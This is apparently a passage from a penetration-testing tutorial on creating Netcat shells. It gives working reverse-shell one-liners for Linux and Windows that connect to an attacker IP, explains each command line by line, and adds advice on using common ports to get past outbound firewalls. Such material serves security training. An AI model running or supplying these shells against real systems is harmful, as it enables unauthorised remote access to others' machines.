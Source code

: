 
## 4. Creating Shells

Let’s explore how to create reverse and bind shells using Netcat, Socat, and Msfvenom, with **line-by-line explanations** for each command, especially complex ones like the Socat example you highlighted.

### 4.1 Netcat Shells
Netcat is the simplest tool for quick shells, but its simplicity comes with instability.

#### Reverse Shell
- **Attacker (listener)**:
  ```bash
  sudo nc -lvnp 443
  ```
  - **Line-by-Line**:
    - `sudo`: Runs Netcat with root privileges, required for ports below 1024 (e.g., 443).
    - `nc`: Invokes the Netcat binary.
    - `-l`: Sets Netcat to listen mode, waiting for incoming connections.
    - `-v`: Enables verbose output, showing connection details.
    - `-n`: Disables DNS resolution, using IP addresses directly (faster, avoids DNS issues).
    - `-p 443`: Specifies the port to listen on (443, commonly allowed for HTTPS traffic).
- **Target (Linux, with `-e`)**:
  ```bash
  nc 10.10.10.5 443 -e /bin/bash
  ```
  - **Line-by-Line**:
    - `nc`: Invokes Netcat on the target.
    - `10.10.10.5`: The attacker’s IP address to connect to.
    - `443`: The port on the attacker’s machine.
    - `-e /bin/bash`: Executes `/bin/bash` and binds it to the connection, sending a Bash shell to the attacker.
- **Target (Linux, no `-e`)**:
  ```bash
  mkfifo /tmp/f; nc 10.10.10.5 443 < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f
  ```
  - **Line-by-Line**:
    - `mkfifo /tmp/f`: Creates a named pipe (FIFO) at `/tmp/f` for inter-process communication.
    - `nc 10.10.10.5 443`: Connects to the attacker’s IP and port.
    - `< /tmp/f`: Redirects the pipe’s output to Netcat’s input.
    - `| /bin/sh`: Pipes Netcat’s output (commands from the attacker) to `/bin/sh` for execution.
    - `>/tmp/f`: Redirects `/bin/sh`’s output back to the pipe, completing the loop.
    - `2>&1`: Redirects stderr to stdout, ensuring error messages are sent to the attacker.
    - `; rm /tmp/f`: Removes the temporary pipe after execution.
- **Target (Windows, with `-e`)**:
  ```bash
  nc.exe 10.10.10.5 443 -e cmd.exe
  ```
  - **Line-by-Line**:
    - `nc.exe`: The Windows Netcat binary (must be uploaded).
    - `10.10.10.5 443`: Connects to the attacker’s IP and port.
    - `-e cmd.exe`: Binds `cmd.exe` to the connection, sending a Command Prompt shell.
- **Notes**:
  - Use ports like 80, 443, or 53 to bypass outbound firewalls.
  - The `-e` option is not available in all Netcat versions (e.g., `netcat-openbsd`).
